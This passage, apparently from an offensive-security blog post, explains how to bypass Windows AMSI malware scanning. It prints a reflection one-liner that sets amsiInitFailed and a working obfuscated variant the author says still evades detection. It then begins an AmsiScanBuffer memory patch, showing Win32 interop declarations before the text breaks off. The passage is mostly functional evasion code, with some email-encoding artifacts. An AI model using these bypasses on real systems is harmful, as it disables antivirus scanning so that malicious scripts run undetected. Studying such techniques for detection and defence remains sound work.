 One of the first discovered bypasses was published by Matt Graeber in 2016
and could fit in a [single tweet](
https://twitter.com/mattifestation/status/735261120487772160), or 132
characters. It uses reflection to set amsiInitFailed to True, which
effectively turns off AMSI.

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('=
amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Today, the 1-liner gets caught because strings such as 'AmsiUtils' and
'amsiInitFaled' are black listed by AMSI. This turned AMSI bypassing into a
bit of a cat and mouse game. [At some point](
https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasi=
on/
), it was possible to adapt this 1-liner just by splitting the blacklisted
strings, or switching from single quote to double quotes.

Today, a trivial combination of those two simple ideas still works. Still
under 140 characters! An 8 year old hacker could have come up with that.

```
[Ref].Assembly.GetType("System.Management.Automation.Amsi"+"Utils").GetFiel=
d("amsiInit"+"Failed","NonPublic,Static").SetValue($null,$true)
```

The screenshot below shows a blacklisted keyword getting caught by AMSI,
then our one-liner bypass, and the same keyword not getting caught anymore:


![image0.png]({{site.baseurl}}/_posts/images/image0.png)


### AMSIScanBuffer patch

[AMSIScanBuffer](
https://docs.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanbuf=
fer)
is the Windows API that scans content for malware and returns a result.

If we manage to patch the function, then none of our PowerShell commands
will get scanned and we can bypass AMSI.

Rasta Mouse [published](https://rastamouse.me/blog/asb-bypass-pt3/) such a
bypass in November 2018 ([source1](
https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass.p=
s1),
[source2](
https://github.com/webbie321/AmsiScanBufferBypass/blob/master/ASBBypass.ps1=
)).



```
$Win32 =3D @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

```